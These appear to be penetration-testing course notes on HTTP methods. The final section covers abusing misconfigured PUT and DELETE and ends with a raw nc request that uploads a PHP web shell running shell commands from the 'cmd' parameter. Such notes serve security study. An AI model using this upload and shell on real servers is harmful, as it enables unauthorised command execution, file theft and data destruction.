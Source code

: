 # HTTP Verbs

## HTTP Verbs

### **GET**

* Used to request a resource.

```
GET /page.php HTTP/1.1
Host: www.example.site
```

* Can pass arguments. To pass "course=PTS" to page.php, the request will be:

```
GET /page.php?course=PTS HTTP/1.1
Host: www.example.site
```

### **POST**

* Used to submit HTML form data
* Parameters must be in the **message body**

```
POST /login.php HTTP/1.1
Host: www.example.site

username=john&password=mypass
```

### **HEAD**

* Asks just headers of the response instead of the response body

```
HEAD / HTTP/1.1
Host: www.example.site
```

### **PUT**

* Used to **upload** a file to the server
* very dangerous if it is allowed and misconfigured

```
PUT /path/to/destination HTTP/1.1
Host: www.example.site

<PUT data>
```

### **DELETE**

* Used to remove a file from the server
* must be configured wisely as a misused DELETE leads to DOS and data loss

```
DELETE /path/to/destination HTTP/1.1
Host: www.example.site
```

### **OPTIONS**

* Used to query the web server for enabled HTTP Verbs

```
OPTIONS / HTTP/1.1
Host: www.example.site
```

#### Rest APIs

* Represenbtational State Transfer Applicatoin Programming INterface
* Specific type of web app that reslies strongly on almosdt all HTTP verbs
* Common for these apps to use "PUT" for saving data/creating new content and not for saving files
* During a pentest, confirm impact of "PUT/DELETE" method twice before reporting it found
  * After issuing a PUT request, try to look for the existence of the file you created

## Using HTTP 1.0 Syntax

* Using HTTP 1.1 implies also sending a `Host:` header in the request.
* If you use HTTP 1.0, you can skip it

## Exploiting Misconfigured HTTP Verbs

### Enumeration with OPTIONS

* enumerate available methods or verbs

![](<../../../../.gitbook/assets/image (1) (1) (1).png>)

### Exploiting DELETE

![](<../../../../.gitbook/assets/image (21) (1) (1) (1) (1).png>)

![Logging in becomes impossible for every user](<../../../../.gitbook/assets/image (1) (1).png>)

### Exploiting PUT

* you have to know the size of the file you want to upload on the server

![](<../../../../.gitbook/assets/image (10) (1) (1).png>)

* You can then use the size you got to build the PUT message
  * Example: Upload a page displaying info about the PHP installation on a server

![](<../../../../.gitbook/assets/image (6) (1) (1) (1).png>)

### Uploading a PHP Shell with PUT

![](<../../../../.gitbook/assets/image (11) (1) (1).png>)

* This can be used by passing our commands via the cmd GET parameter

![](<../../../../.gitbook/assets/image (20) (1) (1) (1).png>)

* The shell has the same permissions of the web server it runs on.
* For example, we can write a file

![](<../../../../.gitbook/assets/image (17) (1) (1) (1) (1).png>)

* We can also read it

![](<../../../../.gitbook/assets/image (12) (1) (1) (1).png>)

* And we can even read a system file

![](<../../../../.gitbook/assets/image (19) (1) (1) (1) (1).png>)

{% hint style="warning" %}
Remember that PUT requires that we pass the content length. So we have to know the shell size
{% endhint %}

![](<../../../../.gitbook/assets/image (14) (1) (1) (1) (1).png>)

* We can then build a valid PUT request

```bash
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

<?php
if (isset($_GET['cmd']))
{
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
}
?>
```
